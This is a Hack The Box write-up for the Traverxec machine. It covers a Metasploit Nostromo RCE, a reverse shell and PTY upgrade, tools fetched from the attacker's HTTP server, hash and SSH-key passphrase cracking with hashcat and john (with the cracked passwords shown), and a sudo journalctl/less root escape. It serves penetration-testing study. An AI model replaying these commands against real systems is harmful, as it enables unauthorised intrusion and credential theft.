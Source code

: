 # Traverxec
Details:
- Traverxec IP: 10.10.10.165
- Kali IP: 10.10.14.111
- Difficulty: easy
- Date of writeup: 2 May 2020
- **NOTE**: there are no screenshots of the machine because it got retired before I could write this. Luckily, I had enough personal notes to write this up. I aplogize for the lack of images.

Traverxec was my first ever box. Although it was marked as **easy**, it took me some time to solve it. To be fully honest, at some point I had to go on a search for tips in Reddit and Hackthebox forums, which felt a little bit like cheating. It’s hard to be online searching for tips and not spoil the whole box, but it’s possible. I’ve found Reddit specially useful in that sense.

Sections:
- [Recon and finding an RCE](#recon-and-finding-an-rce)
- [Enumerating and poking around](#enumerating-and-poking-around)
- [Search and learn](#search-and-learn)
- [Privesc to root](#privesc-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)

Tools/commands Used
- nmap
- metasploit
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- hashcat
- john

## Recon and finding an RCE
So, first things first: recon.
```shell
kali$  nmap -sC -sV 10.10.10.165
```

When checking out the results, something weird pops up to sight immediately: there is a Nostromo web server running on port 80, version 1.9.6. ```searchsploit nostromo``` will show whether this web server has known vulnerabilities (and the exploits). 

![](images/Traverxec_1.png?raw=true)

Sure enough, there’s an RCE vulnerability. We can run it directly in metasploit.

```
kali$  msfconsole
kali$  search nostromo
kali$  use exploit/multi/http/nostromo_code_exec
kali$  set RHOSTS 10.10.10.165
kali$  set LHOST tun0
kali$  run
```

This gives us a shell. Running ```whoami``` shows that we’re ```www-data```, the owner of the web server. To get a proper shell, we can use a reverse shell with the commands in [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) site, and then running:
```
www-data$  python -c ‘import pty; pty.spawn(“/bin/bash”)’
Press CTRL-Z
kali$  stty raw -echo
kali$  fg
Press enter once more
```

## Enumerating and poking around
Ok, now we have a foothold in the server, we need to privesc to a user. Here’s where I got stuck for a while and, eventually, had to search for tips. I tried a lot of things before finding out the right way to go: enumerating with tools such as [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and [LinEnum](https://github.com/rebootuser/LinEnum), looking at possible backups, searching for scripts or custom binaries, etc. None of this were the correct answer of course, but just for the sake of it I’ll write them down.

An easy way to get files to the server is to download them to your kali machine and then:
```
kali$  python3 -m http.server 8080
www-data$  wget “http://10.10.14.111:8080/filename.sh
```

So we can run
```
www-data$  chmod +x LinEnum.sh
www-data$  chmod +x linpeas.sh
www-data$  ./LinEnum.sh -r linEnumReport -e /tmp/ -t
www-data$  ./linpeas.sh -a > linpeasReport.txt
```

As said, these scripts didn’t come back with meaningful information. We discover user **david** in ```/etc/passwd``` file, which is surely the user we need to own. I attempted to take a look at david’s files:
```
www-data$  cd /home/david → succeeds
www-data$  ls -la → fails
```

This is weird behavior. If you read the [last section](#learnings-from-ippsec-walkthrough), it will make sense.

Poking around in nostromo’s folder (```/var/nostromo```), we find a hash in the ```conf/.htpasswd``` file. Running ```hashid``` shows that it is an MD5Crypt hash. I saved it in a file called hash.txt
```
kali$  hashcat -m 500 hash.txt rockyou.txt –force
```

The rockyou wordlist can be found at ```/usr/share/wordlists/rockyou.txt.gz```. The result of hashcat is **Nowonly4me**.

It seems I had something going on, right? Well, I used it to access the ssh service running in port 22, but nothing:
```
kali$  ssh david@10.10.10.165
```

So, what now?

## Search and learn
One of the tips said, if I remember correctly, "take a look at the nostromo docs, specially regarding public_www". So I did, and found out that when there’s certain configuration ([homedirs](https://gsp.com/cgi-bin/man.cgi?topic=NHTTPD#HOMEDIRS), nostromo creates a public folder in the home folder of the user. I looked at nostromo configuration files and sure enough, the server had this configuration for user david.

Important learning here: when there’s a weird product in an environment, try to find out ways it can be misconfigured, outdated, etc. Do the research!

In ```/home/david/public_www```, there were some filed of interest, specially ```backup-ssh-identity-files.tgz```. Using ```zcat```, it’s possible to see that it is indeed an ssh key pair. We have david’s private key and public certificate.

We copy those to the Kali machine, under the name ```david_rsa``` and ```david_rsa.pub```. By looking at their content, we can easily find out that the private key is encrypted (the header of the key clearly says so)

![](images/Traverxec_2.png?raw=true)

We can get the passphrase using john:
```
kali$  python /usr/share/john/ssh2john.py david_rsa > file4john
kali$  john file4john
```

We find out this way that the passphrase is **hunter**. We can verify this and use it:
```
kali$  openssl rsa -check -noout -in david_rsa
kali$  chmod 600 david_rsa
kali$  ssh -i david_rsa david@10.10.10.165
```

By writing the passphrase, we get a shell as david

## Privesc to root
Luckily, after the struggle with nostromo, getting root was quite easy.

In david’s home folder there were some scripts in the bin directory. One of them (```server-stats.sh```) runs the following command: ``` sudo journalctl -n5 -unostromo.service```. I tried to run that myself and was successful. This is a good thing, it seems david is in the sudoers file for this command. ```journalctl``` uses ```less``` to display the output, and it is listed in the [GTFOBins](https://gtfobins.github.io/) list. This is a list of binaries that can be used to bypass security restrictions.  ```less```, for example, allows to spawn an interactive shell, which will run as root.

I played around a little bit, without getting it to work until I realized that I needed to reduce the terminal screen so ```less``` would be used (the ```-n5``` means it will only display the last 5 lines). 

Btw, changing the command to display more lines didn’t work, because it didn’t match the configuration of the sudoers file.

**There’s root!**

## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=6_C9ShH9v2w)

Great walktrhough, as usual. 
- He explains why I had to do a reverse shell after getting a shell as www-data in metasploit. Apparently, the exploit script was opening a ```/bin/sh``` shell in the server. ```sh``` was a link to ```dash```. If the exploit script had run ```/bin/bash```, then I wouldn’t have had to open another reverse shell.
- He explains why it was possible to ```cd``` to ```/home/david``` but not list its content. Apparently, to ```cd``` to a folder you only need to have execution permission. To list it, you need read permission.

![](images/Traverxec_3.png?raw=true)

- He explains why sudo terminates when a pipe appears. So we couldn’t achieve a root shell by doing ``` sudo journalctl -n5 -unostromo.service | less```
- He explains what the vulnerability does and why it succeeds by analyzing nostromo code
